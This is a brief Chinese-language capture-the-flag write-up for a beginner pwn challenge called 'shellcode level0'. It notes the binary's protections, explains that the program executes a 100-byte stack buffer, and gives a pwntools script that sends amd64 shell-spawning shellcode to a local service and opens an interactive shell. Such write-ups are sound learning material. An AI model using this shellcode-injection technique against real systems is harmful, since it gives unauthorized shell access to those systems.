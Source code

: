```yaml
---
title: shellcode level0
date: 2023/9/23 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`shellcode_level0`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

程序中直接执行rbp-0x70的地址，且给了100B的空间，填一个shellcode即可

**注意要在运行asm时加上参数`arch='amd64'`**，缺省以i386架构产生，会报错

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33151)
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
